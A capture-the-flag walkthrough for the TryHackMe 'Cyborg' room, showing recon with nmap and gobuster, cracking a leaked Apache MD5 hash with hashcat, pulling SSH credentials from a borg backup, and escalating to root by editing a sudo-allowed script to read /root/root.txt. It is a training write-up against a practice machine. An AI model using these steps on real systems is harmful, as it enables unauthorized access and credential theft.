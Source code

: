# Cyborg Walkthrough

Welcome to the Lookup challenge, here is the link to the [room](https://tryhackme.com/room/cyborgt8) on TryHackMe.

This is a box involving encrypted archives, source code analysis and more...

Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let's begin!

<br/>
<br/>

## The Challenge
Let's add the domain to the hosts file:
```bash
echo "MACHINE_IP cyborg.thm" | sudo tee -a /etc/hosts
```

Now we scan for open ports with *nmap*:
```bash
nmap -sV -sC cyborg.thm
```

The tool finds 2 open ports:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

We can visit the website: `http://cyborg.thm`, here we see the default Apache2 server page.
This by itself is not much interesting, let's see if there are any hidden directories:
```bash
gobuster dir -u http://cyborg.thm/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 64  
```

This got me:
```
admin                (Status: 301) [Size: 308] [--> http://cyborg.thm/admin/]
/etc                  (Status: 301) [Size: 306] [--> http://cyborg.thm/etc/]
/index.html           (Status: 200) [Size: 11321]
```

Visiting the `/etc` we can find another directory called `squid` with inside 2 files: `passwd` and `squid.conf`.
The first file contains:
```
music_archive:REDACTED_PASSWORD_HASH
```

This is the hash of the music_archive user.
And in the second one we see:
```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

Basically is telling us that for the authentication it is using the credentials found in the first file.
We need to find the hash type and crack it to get the password:
- Since it contains `$apr1$` it means it is an apache md5 hash, mode 1600 for *hashcat*:
```bash
hashcat -a 0 -m 1600 hash.txt --wordlist rockyou.txt --username
```
--> squidward

Now looking at `http://cyborg.thm/admin` we find Alex's website.

If we click on admin it opens a page with this messages:
```
                ############################################
                ############################################
                [Yesterday at 4.32pm from Josh]
                Are we all going to watch the football game at the weekend??
                ############################################
                ############################################
                [Yesterday at 4.33pm from Adam]
                Yeah Yeah mate absolutely hope they win!
                ############################################
                ############################################
                [Yesterday at 4.35pm from Josh]
                See you there then mate!
                ############################################
                ############################################
                [Today at 5.45am from Alex]
                Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
                I decided to give up like i always do ahahaha sorry about that.
                I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
                Might pass it over to the IT guys but in the meantime all the config files are laying about.
                And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
                other than that im pretty sure my backup "music_archive" is safe just to confirm.
                ############################################
                ############################################
```

Now there is also an option to download something, click it:
```
 http://cyborg.thm/admin/archive.tar
```

It will download an archive file, we can extract the files with:
```bash
 tar -xf archive.tar
```

This creates an `home` directory, going deep inside we land on the `final_archive` one which contains a *borg* backup.
We can inspect which versions are inside:
```bash
borg list .
```

When prompted insert the password we have discovered before.

We see the archive name, now we can extract it:
```bash
borg extract ./::music_archive
```

This will create another `home` directory, exploring inside we find Alex documents, there is a note.txt file.
```bash
cat note.txt
```

Here there is Alex password: `alex:REDACTED_PASSWORD`

Now we can use this credentials to login via ssh:
```bash
ssh alex@cyborg.thm
```

Let's get the flag:
```
cat user.txt
```
--> flag{REDACTED}

<br/>

### Privilege Escalation
Let's begin by checking if we can run anything as `sudo`:
```bash
sudo -l
```

Yes we do:
```
(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

Check what this script file permissions and content:
```bash
ls -l /etc/mp3backups/backup.sh
```
```bash
-r-xr-xr-- 1 alex alex 1083 Dec 30  2020 /etc/mp3backups/backup.sh
```

```bash
cat /etc/mp3backups/backup.sh
```

As we can see we have only execute and read permission, but since the file is created and owned by our user we can add write permissions:
```bash
chmod +w backup.sh
```

Now we can simply add this line at the top or bottom:
```bash
cat /root/root.txt
```

Finally run the script, it will print the last flag:
```bash
sudo ./backup.sh
```

--> flag{REDACTED}

<br/>
<br/>

## Conclusion
Congratulations you have successfully played with cracking hashes and decrypting archives to find sensitive data and read the flags.

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 
